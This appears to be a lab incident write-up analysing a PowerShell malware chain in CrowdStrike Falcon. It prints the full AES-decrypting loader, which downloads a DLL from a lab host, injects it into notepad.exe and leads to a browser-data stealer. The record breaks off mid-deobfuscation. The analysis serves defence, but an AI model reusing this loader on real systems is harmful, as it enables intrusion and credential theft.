<!-- more -->
### Executive summary
CrowdStrike Falcon detected suspicious activity on host [`DESKTOP-6PQJSSG`] involving PowerShell execution, process injection, and communication with an internal IP address. Investigation identified a multi-stage PowerShell payload that downloaded and AES-decrypted a DLL before injecting it into notepad.exe using VirtualAllocEx, WriteProcessMemory, and CreateRemoteThread.

Subsequent activity involved msedge.exe and chromelevator.exe, with access to browser-related user data directories. Network telemetry showed repeated communication with 192.168.59.152. Analysis of the PowerShell payload confirmed that this server hosted the encrypted second-stage payload.

The affected host should be contained, relevant artifacts collected, and the identified indicators reviewed across the environment.

> This investigation is based on a controlled lab simulation and does not represent a real-world incident.


###  Detection 

We start by reviewing the CrowdStrike Falcon Detection page to identify the processes involved in the suspicious activity.



The following processes were observed running under the `m7mad` user account:

- powershell.exe
- notepad.exe
- chromelevator.exe

The process chain was considered highly suspicious, particularly because powershell.exe and notepad.exe were active during the same time period. At this stage of the investigation, the activity suggested that PowerShell may have performed process injection into notepad.exe.

Further analysis of the PowerShell payload later confirmed that notepad.exe was the injection target.

Next, we examine each process, its associated MITRE ATT&CK techniques, file activity, and network connections.


*  #### powershell :<br> 


Here the powershell ran ll.ps1 file and after that  this event :<br>



Falcon classified the activity as `process injection` that inject into windows legitimate process and after that on the same time notepad ran , so the process injected is `notepad`

*  #### notepad :<br> 



Also here notepad done a process injection into a windows legitimate process , which is seen in the next event : 



*  #### msedge :<br> 
The observed injection target was `msedge.exe` , and then `msedge` ran a process :



The process ran from the `msedge` is `chromelevator.exe` and it was identified as a browser-data-related tool. Publicly available information associates the tool with extraction/decryption of browser-protected data, including cookies and other browser artifacts.



Also this process found in [github](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption) which it used for browser steal data ,cookies and wallet .. etc  

### File and Network Operation  

* #### Powershell 

Let's start with each process one by one and see each one what files write or read and network connection from the info page of each process :



From this we observed that `1` network connection appear and `23` disk operation on `powershell` process , The following operations were considered suspicious and were investigated further :

The network connection :



* Source IP : `192.168.59.153`
* Destination IP : `192.168.59.152`
* Port used : `80`

Disk operation  :



PowerShell wrote two DLL files to disk. Subsequent analysis identified one of the decrypted DLLs as the payload used during the `notepad.exe` injection chain. 

* #### notepad 

On this process there's `2` Network connection `21` Disk operation :




Network Connection : 



Here we see that the Destination address on the process is connected to is the same as the `powershell` process which is `192.168.59.152` on port `80` which may indicate that this IP is the payload-hosting ( Command and control ).. ( Approved later )


Disk Operation :



Here we see that `notepad` dropped a DLL and load it as we observed before on `msedge` by injection 

* #### msedge

The msedge.exe process generated `24` network events and `181` disk operations. This combination of browser-related file access and network activity is suspicious, particularly because the activity involved the User Data directories of installed browsers.



Network Connection :



The first connection for DestDestination IP `224.0.0.251` its normal , Microsoft Edge uses this IP address for device discovery and network features.

But by looking on the second connection that happened two times we see that the same IP used in the previous processes used here `192.168.59.152` which indicate that this is the payload-hosting for the full chain , the `20` connections  left is for NetworkConnectionClose for the same connection , But 20 connection to unusual port suspected data transfer/exfiltration channel

Disk Operation :





As we see on the above Pics that the msedge opened `stealer_data.txt` and `User Data` directory for any browsers installed in the machine 



And here it dropping the browser stealer , which is related to the opened `User Data` directory for the browsers 

Registry Operation :    



The msedge.exe process accessed the following registry location:

`SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

The Run registry key is commonly associated with persistence through the MITRE ATT&CK technique `T1547.001` – `Registry Run Keys / Startup Folder`.

However, registry access alone does not confirm persistence. To confirm this technique, additional evidence would be required showing that a registry value was created, modified, or used to execute a program automatically.


### Advanced Event Search 

I used this search to get the processes and the IPs related to them 
```sql
("192.168.59.152" and "192.168.59.153" ) and @timestamp > 1787074253 
| select(
    timestamp,
    Name,
    SeverityName,
    UserName,
    ComputerName,
    FileName,
    CommandLine,
    Tactic,
    Technique,
    PatternDispositionDescription
)
```



And for the `msedge` process we need to specify the `ContextBaseFileName` to get it or we can just see the processes with port `4444` as we saw in the detection page , if we do so we will see :



The port `4444` is most likely Suspected exfiltration channel, while the port `80` for downloading `chromelevator` from the payload-hosting , also same for `powershell` and `notepad`


If we filter for port `4444` we will find that `20` events appear :

```sql
("192.168.59.152" and "192.168.59.153" ) RPort="4444" and @timestamp > 1787074253 
| select(
    timestamp,
    Name,
    SeverityName,
    UserName,
    ComputerName,
    FileName,
    ContextBaseFileName,
    Tactic,
    Technique,
    PatternDispositionDescription
)
```




Also used this search :
```SQL
#event_simpleName=NetworkConnectIP4 and "192.168.59.152" and @timestamp > 1787074253 
| table([
    @timestamp,
    ComputerName,
    ContextBaseFileName,
    ContextProcessId,
    LocalIP,
    LocalPort,
    RemoteIP,
    RemotePort,
    Protocol,
    Tactic,
    Technique,
    TreeId
])
```
And i found this : 




powershell , notepad and msedge done a http connection on 192.168.59.152 while also msedge done a unusual port connection to the same IP , the http used for downloading the malicious files ( as observed later ) while  port 4444 is suspected exfiltration channel

### Full process chain ( Tree )




### Mitigation and Further analysis 

#### Containment

If we found that a process connect to suspicious IP we can  `network contain` for the Host so you can isolate it from the network if its tried to spread to other Workstation in the network  , we can do so from Detection Page and on the process we suspect :



#### Host connection and retrieve malicious script 

We can even connect to the host so we can run command on it and get samples of the malicious scripts and DLLs 



These settings can be good for you if you want to connect and retrieve or dump process from the infected machine using these commands


Here you can see the page we access the host and run commands :




I will first retrieve the powershell file in `ll.ps1` by cat the file that on desktop :



This what i got :

```powershell 
$k=[Convert]::FromBase64String('abXd3Jz/lRf4tk7NE1qCdTyDE58rcc1ogbwmowrwY0k=');
$iv=[Convert]::FromBase64String('DJ5TBOQsmADMnLtHkGoDPA==');
$e=[Convert]::FromBase64String('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');
$a=New-Object ("Secu"+"rity.Cryptography.Aes"+"Managed");
$a.Mode='CBC';
$a.Padding='PKCS7';
$a.Key=$k;
$a.IV=$iv;
$d=$a.CreateDecryptor();
$rukp=$d.TransformFinalBlock($e,0,$e.Length);
$tuez=[Text.Encoding]::UTF8.GetString($rukp);
. ([ScriptBlock]::Create($tuez))
```

The initial PowerShell script is obfuscated and contains Base64-encoded values used as an AES key and initialization vector (IV). The script uses AES in CBC mode with PKCS7 padding to decrypt the large encrypted blob stored in the `$e` variable.

The decrypted content is then converted to a UTF-8 string and executed using:

`. ([ScriptBlock]::Create($tuez))`

This results in the execution of a second-stage PowerShell payload : 

Key : `abXd3Jz/lRf4tk7NE1qCdTyDE58rcc1ogbwmowrwY0k=`
IV : `DJ5TBOQsmADMnLtHkGoDPA==`
decrypted data :
```powershell 
$rukp = @('$EncodedString="a','HR0cDovLzE5','Mi4xNjguNTk','uMTUyL3VzZX','JfcHJvZmlsZ','XNfcGhvdG8v','b2JqZWN0LmR','hdA=="
$De','codedBytes=','[System.Con','vert]::From','Base64Strin','g($EncodedS','tring)
$ur','l=[System.T','ext.Encodin','g]::UTF8.Ge','tString($De','codedBytes)','
$encrypte','dData=(New-','Object Net.','WebClient).','DownloadDat','a($url)
$a','es=[System.','Security.Cr','yptography.','Aes]::Creat','e()
$aes.M','ode=1
','s','.Padding=3
$keyHex="8','a4a35876563','f1ea8baad6c','da0099c24d5','3d4ce5670b3','b23b1306312','7611bb37"
','$keyBytes=N','ew-Object b','yte[] 32
f','or($i=0;$i-','lt32;$i++){','$keyBytes[$','i]=[Convert',']::ToByte($','keyHex.Subs','tring($i*2,','2),16)}
$a','es.Key=$key','Bytes
$ivH','ex="c0a6753','60817d8dba6','2cc79e2fa77','734"
$ivBy','tes=New-Obj','ect byte[] ','16
','($i=','0;$i-lt16;$','i++){$ivByt','es[$i]=[Con','vert]::ToBy','te($ivHex.S','ubstring($i','*2,2),16)}
$aes.IV=$i','vBytes
$de','cryptor=$ae','s.CreateDec','ryptor()
$','decryptedDa','ta=$decrypt','or.Transfor','mFinalBlock','($encrypted','Data,0,$enc','ryptedData.','Length)
$d','ecryptor.Di','spose()
$a','es.Dispose(',')
','mpDll','=[System.IO','.Path]::Get','TempFileNam','e()+".dll"
[System.IO','.File]::Wri','teAllBytes(','$tempDll,$d','ecryptedDat','a)
Add-Typ','e -TypeDefi','nition "usi','ng System;u','sing System','.Runtime.In','teropServic','es;public c','lass N{[Dll','Import(`"ke','rnel32`")]p','ublic stati','c extern In','tPtr OpenPr','ocess(uint ','a,bool b,ui','nt c);[DllI','mport(`"ker','nel32`")]pu','blic static',' extern Int','Ptr Virtual','AllocEx(Int','Ptr a,IntPt','r b,uint c,','uint d,uint',' e);[DllImp','ort(`"kerne','l32`")]publ','ic static e','xtern bool ','WriteProces','sMemory(Int','Ptr a,IntPt','r b,byte[] ','c,uint d,ou','t IntPtr e)',';[DllImport','(`"kernel32','`")]public ','static exte','rn IntPtr C','reateRemote','Thread(IntP','tr a,IntPtr',' b,uint c,I','ntPtr d,Int','Ptr e,uint ','f,out uint ','g);[DllImpo','rt(`"kernel','32`")]publi','c static ex','tern IntPtr',' GetProcAdd','ress(IntPtr',' a,string b',');[DllImpor','t(`"kernel3','2`")]public',' static ext','ern IntPtr ','GetModuleHa','ndle(string',' a);[DllImp','ort(`"kerne','l32`")]publ','ic static e','xtern uint ','WaitForSing','leObject(In','tPtr a,uint',' b);[DllImp','ort(`"kerne','l32`")]publ','ic static e','xtern bool ','CloseHandle','(IntPtr a);','[DllImport(','`"kernel32`','")]public s','tatic exter','n bool Virt','ualFreeEx(I','ntPtr a,Int','Ptr b,uint ','c,uint d);}','"
','o=Get','-Process -N','ame "notepa','d" -ErrorAc','tion Silent','lyContinue
if(-not $p','ro){Start-P','rocess "C:\','Windows\Sys','tem32\notep','ad.exe" -Wi','ndowStyle H','idden;Start','-Sleep 2;$p','ro=Get-Proc','ess "notepa','d"}
$procI','d=$pro[0].I','d
$h=[N]::','OpenProcess','(0x1F0FFF,$','false,$proc','Id)
$b=[Sy','stem.Text.E','ncoding]::A','SCII.GetByt','es($tempDll','+"`0")
$a=','[N]::Virtua','lAllocEx($h',',[IntPtr]::','Zero,$b.Len','gth,0x3000,','0x04)
$w=[','IntPtr]::Ze','ro
[N]::Wr','iteProcessM','emory($h,$a',',$b,$b.Leng','th,[ref]$w)','
$l=[N]::G','etProcAddre','ss([N]::Get','ModuleHandl','e("kernel32','.dll"),"Loa','dLibraryA")','
$t=0
$th','=[N]::Creat','eRemoteThre','ad($h,[IntP','tr]::Zero,0',',$l,$a,0,[r','ef]$t)
if(','$th-ne[IntP','tr]::Zero){','[N]::WaitFo','rSingleObje','ct($th,5000',')|Out-Null;','[N]::CloseH','andle($th)}','
[N]::Virt','ualFreeEx($','h,$a,0,0x80','00)
[N]::C','loseHandle(','$h)
Start-','Sleep 2
tr','y{Remove-It','em $tempDll',' -Force -Er','rorAction S','ilentlyCont','inue}catch{','}');
 $rukp = $rukp -join '';
  . ([ScriptBlock]::Create($rukp))
```

The decryptor in python :

```PY
from Crypto.Cipher import AES
import base64 


data = base64.b64decode("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")
key = base64.b64decode("abXd3Jz/lRf4tk7NE1qCdTyDE58rcc1ogbwmowrwY0k=")
iv = base64.b64decode("DJ5TBOQsmADMnLtHkGoDPA==")


cipher = AES.new(key, AES.MODE_CBC, iv)

decrypted_data = cipher.decrypt(data)

print(decrypted_data.decode('utf-8', errors='ignore'))
```

The decrypted data appear to be an obfuscated powershell we can use [`powerdecode`](https://github.com/Malandrone/PowerDecode) to deobfuscate it : 

```powershell 
$EncodedString="aHR0cDovLzE5Mi4xNjguNTkuMTUyL3VzZXJfcHJvZmlsZXNfcGhvdG8vb2JqZWN0LmRhdA=="
